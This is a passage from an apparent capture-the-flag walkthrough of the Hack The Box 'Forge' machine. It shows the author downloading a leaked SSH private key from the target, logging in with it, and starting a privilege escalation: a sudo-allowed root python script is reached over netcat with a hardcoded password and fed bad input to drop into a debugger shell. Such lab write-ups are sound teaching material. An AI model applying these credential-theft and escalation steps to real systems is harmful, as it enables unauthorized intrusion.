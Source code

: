 ```
$ wget http://forge.htb/uploads/Ad4NhdQB6R8RCkZMskro -O id_rsa

--2021-09-29 19:54:33--  http://forge.htb/uploads/Ad4NhdQB6R8RCkZMskro
Resolving forge.htb (forge.htb)... 10.10.11.111
Connecting to forge.htb (forge.htb)|10.10.11.111|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2590 (2.5K) [image/jpg]
Saving to: ‘id_rsa’

id_rsa                                   100%[=================================================================================>]   2.53K  --.-KB/s    in 0s      

2021-09-29 19:54:33 (127 MB/s) - ‘id_rsa’ saved [2590/2590]
```

The attacker can now connect via SSH using id_rsa.
```
$ chmod 400 id_rsa
$ ssh user@10.10.11.111 -i id_rsa
user@forge:~$
```

## Privilege Escalation and root.txt
Running `sudo -l` reveals the user can run a python script as root without a password.
```
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
user@forge:~$
```

Running the python script with sudo shows that it listens for a port. When it recieves unexpected input, it drops a python debugging shell. tmux can be used to create multiple windows. One tmux window will be used to run the python script, and the other tmux window will be used to connect via netcat.

```
# tmux window one

user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:24112
```

```
# tmux window two
user@forge:~$ nc 127.0.0.1 24112
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
foobarbaz
```
